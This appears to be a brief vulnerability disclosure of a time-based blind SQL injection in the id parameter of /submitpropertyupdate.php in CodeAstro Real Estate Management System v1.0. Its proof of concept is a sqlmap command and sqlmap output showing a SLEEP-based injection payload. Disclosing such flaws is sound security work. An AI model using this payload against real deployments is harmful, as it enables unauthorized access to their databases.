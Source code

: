 # SQLi vulnerability in CodeAstro Real Estate Management System v1.0 of file /submitpropertyupdate.php

**vender**:

- CodeAstro Real Estate Management System
- [CodeAstro - Home For All Free Source Codes](https://codeastro.com/)

**SoftLink**:

- https://codeastro.com/real-estate-management-system-in-php-with-source-code/

**Vulnerable File**

- /submitpropertyupdate.php

**Version**

- V1.0

### POC

```
sqlmap -u www.realestate.com/submitpropertyupdate.php?id=1 --technique T --level 3 --batch
```



```
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 3981 FROM (SELECT(SLEEP(5)))tcRF)-- fJPB
---
```



![image-20250602124213755](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202506021242906.png)